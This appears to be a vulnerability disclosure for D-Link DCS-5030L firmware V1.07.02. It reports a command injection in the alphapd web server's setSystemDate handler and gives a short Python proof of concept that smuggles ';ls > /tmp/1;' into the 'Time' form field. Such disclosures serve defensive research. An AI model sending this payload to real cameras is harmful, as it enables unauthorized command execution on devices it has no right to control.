 # command injection

## D-LINK DCS-5030L

version: V1.07.02

## Description:

There is a command injection in alphapd/sub_435028

## Source:

you may download it from : [legacyfiles.us.dlink.com - /DCS-5030L/REVA/FIRMWARE/](http://legacyfiles.us.dlink.com/DCS-5030L/REVA/FIRMWARE/)

## Analyse:

![](5.png)

If some keywords are null and set ConfigReboot, get into line 37.

![](6.png)

then call doSystem ,causes command injection via parameter v10

## POC

```
url = "http://192.168.1.13/setSystemDate"
headers = {
    'Host': '192.168.1.13',
    'Authorization': 'Basic base64(admin:password)',
    'Connection': 'close',
    'Content-Type': 'application/x-www-form-urlencoded'
}
data = {
    'ReplySuccessPage':'advanced.htm',
    'ReplyErrorPage':'errradv.htm',
    'Time':';ls > /tmp/1;',
    'ConfigReboot':'No'
}
r = requests.post(url, data=data,headers=headers)
```
